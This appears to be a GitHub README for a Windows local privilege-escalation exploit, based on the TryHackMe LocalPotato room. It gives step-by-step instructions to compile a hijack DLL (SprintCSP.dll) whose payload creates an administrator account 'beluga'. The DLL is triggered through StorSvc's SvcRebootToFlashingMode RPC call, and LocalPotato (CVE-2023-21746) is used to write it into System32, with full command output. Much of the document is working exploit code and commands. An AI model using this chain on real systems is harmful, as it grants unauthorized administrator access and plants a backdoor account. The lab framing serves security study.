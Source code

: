 # Ghost dll & LocalPotato
All the information to compile and execute these binaries comes from the [TryHackMe room for LocalPotato](https://tryhackme.com/room/localpotato)

## Compiling the Exploit

Make your changes, github will compile it for you 

- **SprintCSP.dll**: This is the missing DLL we are going to hijack.
- **RpcClient.exe**: This program will trigger the RPC call to `SvcRebootToFlashingMode`. Depending on the Windows version you are targeting, you may need to edit the exploit's code a bit, as different Windows versions use different interface identifiers to expose `SvcRebootToFlashingMode`.

Let's start by dealing with RpcClient.exe. As previously mentioned, we will need to change the exploit depending on the Windows version of the target machine. To do this, we will need to change the first lines of `RpcClient\RpcClient\storsvc_c.c` so that the correct operating system is chosen.

If teh target machine is running Windows Server 2019, we will edit the file to look as follows:

    #if defined(_M_AMD64)

    //#define WIN10
    //#define WIN11
    #define WIN2019
    //#define WIN2022

    ...

Now to compile SprintCSP.dll, we only need to modify the `DoStuff()` function on `SprintCSP\SprintCSP\main.c` so that it executes a command that grants us privileged access to the machine.  We will make the DLL add a new administrator user: beluga / Password.123

Here's the code with our replaced command:

    void DoStuff() {

      // Replace all this code by your payload
      STARTUPINFO si = { sizeof(STARTUPINFO) };
      PROCESS_INFORMATION pi;
      CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net user beluga Password.123 /add && net localgroup administrators beluga /add",
          NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, L"C:\\Windows", &si, &pi);

      CloseHandle(pi.hProcess);
      CloseHandle(pi.hThread);

      return;
    }
    
    
## Ghost dll attack
To successfully exploit StorSvc, we need to copy SprintCSP.dll to any directory in the current PATH. We can verify the PATH by running the following command:

        C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
            Path    REG_EXPAND_SZ    %SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;
                                     %SYSTEMROOT%\System32\WindowsPowerShell\v1.0\;%SYSTEMROOT%\System32\OpenSSH\;
                                     C:\Program Files\Amazon\cfn-bootstrap\

With our DLL in place, we can now run RpcClient.exe to trigger the call to SvcRebootToFlashingMode, effectively executing the payload in our DLL:

        C:\Users\user\Desktop> RpcClient.exe
        [+] Dll hijack triggered!

Note:
If it errorrs out eg. like this:
        Exception: 1753 - 0x000006d9

You need to adjust properly the Windows version for the RpcClient.exe and recompile.
        
If the exploitation was successful beluga will be in the Administrators group:

        C:\Users\user\Desktop> net user beluga
        
## Localpotato

By using Localpotato exploit we can access C:\windows\system32 even if we are using an unprivileged user:

        C:\Users\user\Desktop> LocalPotato.exe -i SprintCSP.dll -o \Windows\System32\SprintCSP.dll
 
         LocalPotato (aka CVE-2023-21746)
         by splinter_code & decoder_it
 
        [*] Objref Moniker Display Name = objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGAQAAAAAAAABTIvXDdMIUbap+AepkeJ/yAcgAAMwIwArWEKZ3vRDmhjkAIwAHAEMASABBAE4ARwBFAC0ATQBZAC0ASABPAFMAVABOAEEATQBFAAAABwAxADAALgAxADAALgA0ADAALgAyADMAMQAAAAAACQD//wAAHgD//wAAEAD//wAACgD//wAAFgD//wAAHwD//wAADgD//wAAAAA=:
        [*] Calling CoGetInstanceFromIStorage with CLSID:{854A20FB-2D44-457D-992F-EF13785D2B51}
        [*] Marshalling the IStorage object... IStorageTrigger written: 100 bytes
        [*] Received DCOM NTLM type 1 authentication from the privileged client
        [*] Connected to the SMB server with ip 127.0.0.1 and port 445
        [+] SMB Client Auth Context swapped with SYSTEM
        [+] RPC Server Auth Context swapped with the Current User
        [*] Received DCOM NTLM type 3 authentication from the privileged client
        [+] SMB reflected DCOM authentication succeeded!
        [+] SMB Connect Tree: \\127.0.0.1\c$  success
        [+] SMB Create Request File: Windows\System32\SprintCSP.dll success
        [+] SMB Write Request file: Windows\System32\SprintCSP.dll success
        [+] SMB Close File success
        [+] SMB Tree Disconnect success

Once our dll is in place, we can trigger it on the previous way.
